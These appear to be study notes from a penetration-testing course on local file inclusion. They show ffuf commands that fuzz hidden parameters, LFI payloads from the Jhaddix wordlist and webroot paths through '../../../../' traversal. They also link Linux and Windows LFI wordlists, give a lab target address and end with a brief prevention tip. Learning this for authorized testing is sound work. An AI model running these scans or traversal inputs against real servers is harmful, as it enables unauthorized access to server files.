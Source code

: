 
# Automated Scanning

## Fuzzing Parameters

However, in many cases, the page may have other exposed parameters that are not linked to any HTML forms, and hence normal users would never access or unintentionally cause harm through. This is why it may be important to fuzz for exposed parameters, as they tend not to be as secure as public ones.

```shell
ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287
```

**Tip:** For a more precise scan, we can limit our scan to the most popular LFI parameters found on this [link](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html#top-25-parameters).

## LFI wordlists

 A good wordlist is [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt), as it contains various bypasses and common files, so it makes it easy to run several tests at once. We can use this wordlist to fuzz the `?language=` parameter we have been testing throughout the module, as follows:
```shell-session
ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287
```

## Fuzzing Server Files

Such files include: `Server webroot path`, `server configurations file`, and `server logs`.

```shell
ffuf -w /opt/useful/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
```

### Linux
https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux
### Windows

https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows


question

http://94.237.59.180:33606/index.php?view=

# File Inclusion Prevention

The most effective thing we can do to reduce file inclusion vulnerabilities is to avoid passing any user-controlled inputs into any file inclusion functions or APIs. The page should be able to dynamically load assets on the back-end, with no user interaction whatsoever.
